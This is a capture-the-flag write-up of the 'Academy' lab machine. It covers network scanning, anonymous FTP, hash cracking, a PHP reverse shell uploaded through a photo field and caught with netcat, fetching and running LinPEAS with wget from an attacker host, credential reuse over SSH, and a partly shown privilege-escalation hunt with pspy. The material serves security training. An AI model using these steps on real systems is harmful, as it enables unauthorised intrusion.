

# Academy

Login credentials (spoilered): `root:tcm`
IP address (after logging in to Academy box): 10.0.2.15


## Confirm Victim's IP Address

┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
[sudo] password for kali:
Interface: eth0, type: EN10MB, MAC: 08:00:27:b4:a1:05, IPv4: 10.0.2.5
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.1        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.2        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.3        08:00:27:5b:cf:50       (Unknown)
10.0.2.15       08:00:27:e5:72:43       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.001 seconds (127.94 hosts/sec). 4 responded


┌──(kali㉿kali)-[~]
└─$ ping 10.0.2.15 -c 3
PING 10.0.2.15 (10.0.2.15) 56(84) bytes of data.
64 bytes from 10.0.2.15: icmp_seq=1 ttl=64 time=0.487 ms
64 bytes from 10.0.2.15: icmp_seq=2 ttl=64 time=0.504 ms
64 bytes from 10.0.2.15: icmp_seq=3 ttl=64 time=0.574 ms

--- 10.0.2.15 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2048ms
rtt min/avg/max/mdev = 0.487/0.521/0.574/0.037 ms

**Victim's IP address: 10.0.2.15 confirmed, host reachable**


## Active Reconnaissance with nmap

┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ nmap -T4 -p- 10.0.2.15 > Academy_nmap.txt 

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-14 04:58 EDT
Nmap scan report for 10.0.2.15
Host is up (0.00010s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E5:72:43 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.18 seconds

**Open ports: 21 (FTP), 22 (SSH), 80 (HTTP)**


┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ nmap -T4 -A -p 21,22,80 10.0.2.15 >> Academy_nmap.txt

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-14 04:59 EDT
Nmap scan report for 10.0.2.15
Host is up (0.00045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.0.2.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:E5:72:43 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.45 ms 10.0.2.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.67 seconds

**Findings:**

* Port 21: FTP, vsftpd 3.0.3, login as user `ftp`, anonymous login allowed,
apparently there is a file called `notes.txt`
* Port 22: SSH, OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
* Port 80: HTTP, Apache httpd 2.4.38 (Debian), `http://10.0.2.15/` shows Debian
default web page ("It works")
* OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)


## Manual research

### Port 21, FTP


**Anonymous FTP Login**

```
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ ftp 10.0.2.15
Connected to 10.0.2.15.
220 (vsFTPd 3.0.3)
Name (10.0.2.15:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||42162|)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
226 Directory send OK.
ftp> less note.txt
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
ftp>
```

**Findings: There is an admin (Grimmie) who always uses the same password
everywhere. There is one user:password combination mentioned in the text file:
`Rum Ham:cd73502828457d15655bbd7a63fb0bc8`. We could try this to log in via SSH.
There is also the note that you use the StudentRegno for login, which is `10201321`.**


### Port 22, SSH

Found a [list of vulnerabilities in OpenSSH
7.9p1](https://www.cybersecurity-help.cz/vdb/openssh/openssh/7.9p1/), but none
of these seems to give us remote code execution or something similar, mainly
man-in-the-middle attacks.

**Login via SSH did not work with the credentials mentioned in the `note.txt` file
found through anonymous ftp.**


### Port 80, HTTP

**Operating System**
We do not even know which operating system exactly is running on the victim
machine.


```
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ nikto -h http://10.0.2.15 >> Academy_Nikto.txt   
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.15
+ Target Hostname:    10.0.2.15
+ Target Port:        80
+ Start Time:         2025-06-15 05:02:42 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 29cd, size: 5c37b0dee585e, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.38 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /phpmyadmin/README: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts. See: https://typo3.org/
+ 8254 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2025-06-15 05:03:08 (GMT-4) (26 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


```
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ cat Academy_DirBusterReport-10.0.2.15-80.txt

DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Sun Jun 15 04:17:55 EDT 2025
--------------------------------

http://10.0.2.15:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/
/academy/
/academy/admin/
/academy/assets/
/academy/assets/js/
/academy/assets/img/
/academy/admin/assets/
/academy/admin/assets/js/
/academy/assets/css/
/academy/admin/assets/img/
/academy/assets/fonts/
/academy/includes/
/academy/admin/assets/css/
/academy/admin/assets/fonts/
/academy/db/
/academy/admin/includes/
/phpmyadmin/

Dirs found with a 403 response:

/icons/
/icons/small/
/phpmyadmin/templates/
/phpmyadmin/themes/
/phpmyadmin/doc/
/phpmyadmin/doc/html/
/phpmyadmin/examples/
/phpmyadmin/js/
/phpmyadmin/libraries/
/phpmyadmin/vendor/
/phpmyadmin/doc/html/_images/
/phpmyadmin/vendor/google/
/phpmyadmin/js/vendor/
/phpmyadmin/setup/lib/
/phpmyadmin/sql/
/phpmyadmin/themes/original/
/phpmyadmin/themes/original/img/
/phpmyadmin/themes/original/css/
/phpmyadmin/locale/
/phpmyadmin/locale/de/
/phpmyadmin/locale/fr/
/phpmyadmin/locale/it/
/phpmyadmin/locale/nl/
/phpmyadmin/locale/uk/
/phpmyadmin/locale/es/
/phpmyadmin/locale/cs/
/phpmyadmin/locale/pl/
/phpmyadmin/locale/id/
/phpmyadmin/locale/tr/
/phpmyadmin/locale/ca/
/phpmyadmin/locale/ru/
/phpmyadmin/js/designer/
/phpmyadmin/locale/pt/
/phpmyadmin/locale/ja/
/phpmyadmin/locale/bg/
/phpmyadmin/locale/ar/
/phpmyadmin/locale/hu/
/phpmyadmin/locale/vi/
/phpmyadmin/locale/fi/
/phpmyadmin/locale/be/
/phpmyadmin/locale/gl/
/phpmyadmin/locale/da/
/phpmyadmin/locale/si/
/phpmyadmin/locale/sv/
/phpmyadmin/locale/th/
/phpmyadmin/locale/el/
/phpmyadmin/locale/ko/
/phpmyadmin/locale/sk/
/phpmyadmin/locale/sl/
/phpmyadmin/locale/ia/
/phpmyadmin/locale/ro/
/phpmyadmin/locale/lt/
/phpmyadmin/locale/he/
/phpmyadmin/locale/az/
/phpmyadmin/locale/et/
/phpmyadmin/locale/bn/
/phpmyadmin/vendor/phpmyadmin/
/phpmyadmin/locale/nb/
/phpmyadmin/vendor/composer/
/phpmyadmin/locale/sq/
/phpmyadmin/vendor/bacon/
/phpmyadmin/locale/kk/
/phpmyadmin/locale/hy/
/phpmyadmin/vendor/twig/
/phpmyadmin/vendor/twig/extensions/
/phpmyadmin/vendor/twig/extensions/lib/
/phpmyadmin/vendor/twig/extensions/src/
/phpmyadmin/doc/html/_static/
/phpmyadmin/js/vendor/jquery/
/phpmyadmin/themes/original/jquery/
/phpmyadmin/themes/original/jquery/images/
/phpmyadmin/vendor/twig/twig/
/phpmyadmin/vendor/twig/twig/lib/
/phpmyadmin/vendor/twig/twig/src/
/phpmyadmin/vendor/twig/twig/ext/
/phpmyadmin/vendor/twig/twig/ext/twig/

Dirs found with a 401 response:

/phpmyadmin/setup/


--------------------------------
Files found during testing:

Files found with a 200 responce:

/academy/index.php
/academy/admin/index.php
/academy/assets/js/jquery-1.11.1.js
/academy/assets/js/bootstrap.js
/academy/admin/assets/js/jquery-1.11.1.js
/academy/admin/assets/js/bootstrap.js
/academy/assets/css/bootstrap.css
/academy/assets/css/font-awesome.css
/academy/assets/css/style.css
/academy/assets/fonts/FontAwesome.otf
/academy/assets/fonts/fontawesome-webfont.eot
/academy/assets/fonts/fontawesome-webfont.svg
/academy/assets/fonts/fontawesome-webfont.ttf
/academy/assets/fonts/fontawesome-webfont.woff
/academy/assets/fonts/fontawesome-webfont.woff2
/academy/admin/assets/css/bootstrap.css
/academy/includes/config.php
/academy/assets/fonts/glyphicons-halflings-regular.eot
/academy/admin/assets/css/font-awesome.css
/academy/includes/footer.php
/academy/admin/assets/css/style.css
/academy/includes/header.php
/academy/assets/fonts/glyphicons-halflings-regular.svg
/academy/admin/assets/fonts/FontAwesome.otf
/academy/includes/menubar.php
/academy/assets/fonts/glyphicons-halflings-regular.ttf
/academy/admin/assets/fonts/fontawesome-webfont.eot
/academy/assets/fonts/glyphicons-halflings-regular.woff
/academy/admin/assets/fonts/fontawesome-webfont.svg
/academy/assets/fonts/glyphicons-halflings-regular.woff2
/academy/admin/assets/fonts/fontawesome-webfont.ttf
/academy/admin/assets/fonts/fontawesome-webfont.woff
/academy/admin/assets/fonts/fontawesome-webfont.woff2
/academy/admin/assets/fonts/glyphicons-halflings-regular.eot
/academy/admin/assets/fonts/glyphicons-halflings-regular.svg
/academy/admin/assets/fonts/glyphicons-halflings-regular.ttf
/academy/admin/assets/fonts/glyphicons-halflings-regular.woff
/academy/admin/assets/fonts/glyphicons-halflings-regular.woff2
/academy/db/onlinecourse.sql
/academy/admin/includes/config.php
/academy/admin/includes/footer.php
/academy/admin/includes/header.php
/academy/admin/includes/menubar.php
/academy/logout.php
/academy/admin/logout.php
/phpmyadmin/index.php
/phpmyadmin/themes.php
/phpmyadmin/ajax.php
/phpmyadmin/license.php
/phpmyadmin/navigation.php
/phpmyadmin/logout.php
/phpmyadmin/changelog.php
/phpmyadmin/export.php
/phpmyadmin/js/messages.php
/phpmyadmin/sql.php
/phpmyadmin/import.php
/phpmyadmin/examples/signon.php
/phpmyadmin/js/whitelist.php
/phpmyadmin/examples/openid.php
/phpmyadmin/lint.php

Files found with a 302 responce:

/academy/print.php
/academy/admin/print.php
/academy/admin/course.php
/academy/admin/department.php
/phpmyadmin/url.php
/academy/enroll.php
/academy/admin/session.php
/academy/admin/level.php

Files found with a 500 responce:

/phpmyadmin/server_status.php
/phpmyadmin/phpinfo.php
/phpmyadmin/db_search.php


--------------------------------
```


**Gobuster** finished fast (within seconds, compared to ca. 2 hours for
Dirbuster), but did not find nearly as many assets as Dirbuster: "Gobuster **will
not recursively enumerate directories**, so it’s a good idea to run Gobuster again
on any discovered directories. Overall, Gobuster is an excellent tool for
enumerating web applications at the beginning of a pentest." [source](https://abrictosecurity.com/gobuster-directory-enumerator-cheat-sheet/)


```
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -o Academy_Gobuster.txt -t 60 -u http://10.0.2.15 -x php,htm,html,js,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.15
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              htm,html,js,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/index.html           (Status: 200) [Size: 10701]
/.html                (Status: 403) [Size: 274]
/.htm                 (Status: 403) [Size: 274]
/academy              (Status: 301) [Size: 308] [--> http://10.0.2.15/academy/]
/phpmyadmin           (Status: 301) [Size: 311] [--> http://10.0.2.15/phpmyadmin/]
/.htm                 (Status: 403) [Size: 274]
/.php                 (Status: 403) [Size: 274]
/.html                (Status: 403) [Size: 274]
Progress: 489858 / 489864 (100.00%)
===============================================================
Finished
===============================================================


┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -o Academy_Gobuster.txt -t 60 -u http://10.0.2.15/academy/ -x php,htm,html,js,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.15/academy/
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,htm,html,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htm                 (Status: 403) [Size: 274]
/.html                (Status: 403) [Size: 274]
/index.php            (Status: 200) [Size: 3858]
/print.php            (Status: 302) [Size: 0] [--> index.php]
/admin                (Status: 301) [Size: 314] [--> http://10.0.2.15/academy/admin/]
/assets               (Status: 301) [Size: 315] [--> http://10.0.2.15/academy/assets/]
/includes             (Status: 301) [Size: 317] [--> http://10.0.2.15/academy/includes/]
/db                   (Status: 301) [Size: 311] [--> http://10.0.2.15/academy/db/]
/.php                 (Status: 403) [Size: 274]
/logout.php           (Status: 200) [Size: 75]
/enroll.php           (Status: 302) [Size: 0] [--> index.php]
/.html                (Status: 403) [Size: 274]
/.htm                 (Status: 403) [Size: 274]
/.php                 (Status: 403) [Size: 274]
Progress: 489858 / 489864 (100.00%)
===============================================================
Finished
===============================================================
                                                                                                                    
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -o Academy_Gobuster.txt -t 60 -u http://10.0.2.15/academy/admin/ -x php,htm,html,js,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.15/academy/admin/
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,htm,html,js,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/.htm                 (Status: 403) [Size: 274]
/index.php            (Status: 200) [Size: 3886]
/.html                (Status: 403) [Size: 274]
/print.php            (Status: 302) [Size: 0] [--> index.php]
/assets               (Status: 301) [Size: 321] [--> http://10.0.2.15/academy/admin/assets/]
/includes             (Status: 301) [Size: 323] [--> http://10.0.2.15/academy/admin/includes/]
/logout.php           (Status: 200) [Size: 75]
/course.php           (Status: 302) [Size: 0] [--> index.php]
/department.php       (Status: 302) [Size: 0] [--> index.php]
/session.php          (Status: 302) [Size: 0] [--> index.php]
/level.php            (Status: 302) [Size: 0] [--> index.php]
/.php                 (Status: 403) [Size: 274]
/.htm                 (Status: 403) [Size: 274]
/.html                (Status: 403) [Size: 274]
Progress: 489858 / 489864 (100.00%)
===============================================================
Finished
===============================================================
```


```
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: cd73502828457d15655bbd7a63fb0bc8

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4

(--- snip ---)
```


There are online password cracking tools for md5, e.g.
[Crackstation](https://crackstation.net/). The hash is cracked in a second,
revealing the actual password `student`.





We can now try to upload a reverse shell via the photo upload. Googling for "php
reverse shell" delivers a link to a good shell on
[Github](https://github.com/pentestmonkey/php-reverse-shell). We go to the raw
code, copy and paste it into a new text file ("shell.php"). Before we use the
script, we need to update the hardcoded IP address to our actual IP address. We
can, but do not need to change the port number.


We start a Netcat listener with the usual `nc -nvlp <PORT>` command with the
port number used in the shell script, by default 1234. After that we upload the
shell code as if it was a user photo. The code is executed without explicitly
going to the URL that we looked up before. We got our first shell on the
machine, but for a user with few permissions:

```
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.15] 50740
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 02:20:46 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Privilege Escalation with LinPEAS

Now we use the Linux shell script
[LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
for **privilege escalation**, i.e. to get access to a user with elevated access
rights, e.g. root. (There is also a Windows equivalent, WinPEAS.) To get LinPEAS
onto the victim machine, we start an HTTP server on our attack machine with
`python -m http.server -b <ATTACKER IP> <PORT>` in the directory where the
`linpeas.sh` script is stored. To download and run the script, we need to move
to some folder where we have write access, download the file with `wget
<ATTACKER IP>/linpeas.sh`, and make it executable before we run it:


```
$ cd /tmp
$ wget 10.0.2.5/linpeas.sh
--2025-06-17 01:24:06--  http://10.0.2.5/linpeas.sh
Connecting to 10.0.2.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 954437 (932K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  5% 9.89M 0s
    50K .......... .......... .......... .......... .......... 10% 10.7M 0s
   100K .......... .......... .......... .......... .......... 16% 14.0M 0s
   150K .......... .......... .......... .......... .......... 21% 17.4M 0s
   200K .......... .......... .......... .......... .......... 26% 91.8M 0s
   250K .......... .......... .......... .......... .......... 32% 10.4M 0s
   300K .......... .......... .......... .......... .......... 37% 15.1M 0s
   350K .......... .......... .......... .......... .......... 42% 31.3M 0s
   400K .......... .......... .......... .......... .......... 48% 14.6M 0s
   450K .......... .......... .......... .......... .......... 53% 17.3M 0s
   500K .......... .......... .......... .......... .......... 59%  156M 0s
   550K .......... .......... .......... .......... .......... 64%  260M 0s
   600K .......... .......... .......... .......... .......... 69%  247M 0s
   650K .......... .......... .......... .......... .......... 75%  299M 0s
   700K .......... .......... .......... .......... .......... 80%  334M 0s
   750K .......... .......... .......... .......... .......... 85%  281M 0s
   800K .......... .......... .......... .......... .......... 91%  247M 0s
   850K .......... .......... .......... .......... .......... 96%  295M 0s
   900K .......... .......... .......... ..                   100%  295M=0.03s

2025-06-17 01:24:06 (27.0 MB/s) - 'linpeas.sh' saved [954437/954437]

$ chmod +x linpeas.sh
$ ./linpeas.sh
```


We are looking for red text, ideally with orange background:


Compared to TCM's walkthrough, LinPEAS shows fewer valuable results in 2025 than
in 2021! I cannot find them in a dump file of its output and a grep search
either.


The file in which the password for the MySQL database was found looks as
follows:

```
$ cat /var/www/html/academy/includes/config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");


?>
$
```

Maybe we can log in to the SQL database and find more information there.

The `/etc/passwd` file shows us that user `grimmie` is an administrator,
therefore it is definitely worth storing the MySQL password for later use.

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

(--- snip ---)

mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash
$
```

We can try the password that we have found with LinPEAS for that user, i.e.
`grimmie:My_V3ryS3cur3_P4ss`, e.g. with SSH. That gives us access to the victim
machine as `grimmie`, who is an administrator:

```
┌──(kali㉿kali)-[~]
└─$ ssh grimmie@10.0.2.15
grimmie@10.0.2.15's password: 
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 30 03:21:39 2021 from 192.168.10.31
grimmie@academy:~$ 
```


The first things that one can try then is list one's privileges with `sudo -l`
(sudo is removed on this machine) and `history`. We could also download and run
LinPEAS again as `grimmie` to see if anything changes when we invoke it with
advanced access rights. We can also look at the shell script that was identified
as a 95% way to privilege escalation by LinPEAS. (We could already read it with
lower access rights, though.)


```
$ ls -la /home/grimmie
total 32
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator  112 May 30  2021 backup.sh

$ cat /home/grimmie/backup.sh
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
```


The script seems to be run periodically, so we can check for a cronjob with
`crontab -l` and `crontab -u root -l` (in case the cronjob was set up by root).
Neither of the two works because (1) there is no cronjob for `grimmie`, and (2) we
do not have access as `root`. We can display current timers with `systemctl
show-timers`, but there is no cronjob visible that looks as if it was invoking
the `backup.sh` script.

There is a tool called [pspy](https://github.com/DominicBreuker/pspy) that can
be used to show all processes without root access rights. We can download it
from Github and move it to the folder on which the Python HTTP server is
running to `wget` it from there, again to `/tmp`, and we need to make it
executable. We run `pspy64` and look for a `backup.sh` entry.


```
grimmie@academy:/tmp$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/06/18 02:13:32 CMD: UID=1000  PID=20387  | ./pspy64
2025/06/18 02:13:32 CMD: UID=0     PID=20361  |
2025/06/18 02:13:32 CMD: UID=0     PID=20254  |
2025/06/18 02:13:32 CMD: UID=1000  PID=20100  | -bash
2025/06/18 02:13:32 CMD: UID=1000  PID=20099  | sshd: grimmie@pts/0
2025/06/18 02:13:32 CMD: UID=1000  PID=20091  | (sd-pam)
2025/06/18 02:13:32 CMD: UID=1000  PID=20090  | /lib/systemd/systemd --user
2025/06/18 02:13:32 CMD: UID=0     PID=20087  | sshd: grimmie [priv]
2025/06/18 02:13:32 CMD: UID=0     PID=3259   |
2025/06/18 02:13:32 CMD: UID=33    PID=578    | /bin/sh -i
